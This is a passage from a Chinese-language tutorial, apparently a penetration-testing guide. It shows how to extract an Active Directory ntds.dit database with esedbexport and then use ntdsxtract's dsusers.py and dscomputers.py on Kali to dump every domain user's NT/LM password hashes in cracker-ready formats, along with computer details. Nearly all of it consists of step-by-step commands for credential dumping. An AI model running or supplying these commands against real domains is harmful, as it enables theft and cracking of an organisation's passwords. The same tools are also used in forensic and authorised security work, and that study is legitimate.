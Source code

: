 安装完后会在 ``/usr/local/bin/`` 目录下看到 esedbexport 程序。

进入存放 ntds.dit 的目录，使用 esedbexport 进行恢复操作。输入如下命令提取表信息：

```
esedbexport -m tables ntds.dit
```

[![5UhXVS.png](https://z3.ax1x.com/2021/10/18/5UhXVS.png)](https://imgtu.com/i/5UhXVS)

[![5U4GIe.png](https://z3.ax1x.com/2021/10/18/5U4GIe.png)](https://imgtu.com/i/5U4GIe)

#### 2.2 导出散列值

Kali中：

```
git clone https://github.com/csababarta/ntdsxtract.git

cd ntdsxtract/

python setup.py build && python setup.py install
```

执行完毕后，ntdsxtract就会在你的系统上进行安装。

ntdsxtract 工具中dsusers.py 可以被用来从分离出来的表中提取用户信息，以及NT/LM密码hash值。前提是具有如下三个文件：

> datatable
>
> link_table
>
> system hive

这个工具的使用规则为：

```
dsusers.py -syshive -passwordhashes
```

-pwdformat 选项是选择以什么格式进行格式提取，有John(John format)，ocl(oclHashcat)，ophc(OphCrack) 三个选项。

这个工具还会将所获得信息输出出来，这也方便了我们可以将信息写入到其他文件当中。

以oclHashcat格式提取所有NT和LM的hash，并将它们保存在"output"目录中的"ntout"和"lmout"中： (将导出的ntds.dit.export 文件夹和 SYSTEM 文件一并放入 ntdsxtract 文件夹)

```
dsusers.py  ntds.dit.export/datatable.3 ntds.dit.export/link_table.5 output --syshive system.hive --passwordhashes --pwdformat ocl --ntoutfile ntout  --lmoutfile lmout |tee all_user_info.txt
```

> 如果提示 ImportError: No module named Crypto.Hash，直接 pip install pycryptodome 即可。

将域内的所有用户名及散列值导出到all_user_info.txt 中。

ntds.dit 包含域内的所有信息，可以通过分析 ntds.dit 导出域内的计算机信息及其他信息：

```
dscomputers.py ntds.dit.export/datatable.3 computer_output --csvoutfile all_computers.csv
```
